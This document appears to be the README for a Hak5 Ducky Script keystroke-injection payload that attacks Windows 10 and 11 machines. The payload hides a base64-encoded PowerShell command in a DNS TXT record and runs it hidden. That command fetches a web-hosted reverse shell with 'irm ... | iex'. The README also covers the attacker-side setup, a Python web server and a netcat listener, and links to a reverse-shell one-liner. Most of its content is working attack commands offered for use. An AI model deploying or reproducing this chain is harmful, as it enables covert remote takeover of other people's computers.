 # DNS-TXT-CommandInjection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record. The payload leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. 
## Description
Author: Nate
Target: Windows 10, 11
Props: Hak5, Darren Kitchen, Korben
Version: 1.0
Category: Execution
## Configuration
1. A domain with the ability to manipulate the DNS TXT records.
2. Add command to DNS TXT records. See Links for an example of creating your DNS TXT record in AWS Route53 service.
3. Web Server hosting a file. In this example, python3 http.server was used to host a reverseshell.
4. Update powershellReverseShellOne-liner.ps1.
5. Set up istener on the attacker machine to reflect what is in powershellReverseShellOne-liner.ps1. Netcat was used in this example.
6. Provide URL used for Example #MY_TARGET_URL in DNS-TXT-CommandInjection.txt
## Notes
Other commands can be added to DNS TXT record rather than the example below.
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRINGLN payload. Examples of the decoded command and encoded command are shown below to put into the DNS TXT record.

Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="

powershellReverseShellOne-liner.ps1 is identical to T1.txt. (shortened due to character limitations)
ShoutOut: powershell reverse shell one-liner by Nikhil SamratAshok Mittal @samratashok. See link below.
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname #MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
## Linux Commands
### Web Server to host a file
```Bash
python3 -m http.server 80
```
### Netcat listener
```Bash
nc -lvnp 1337
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)
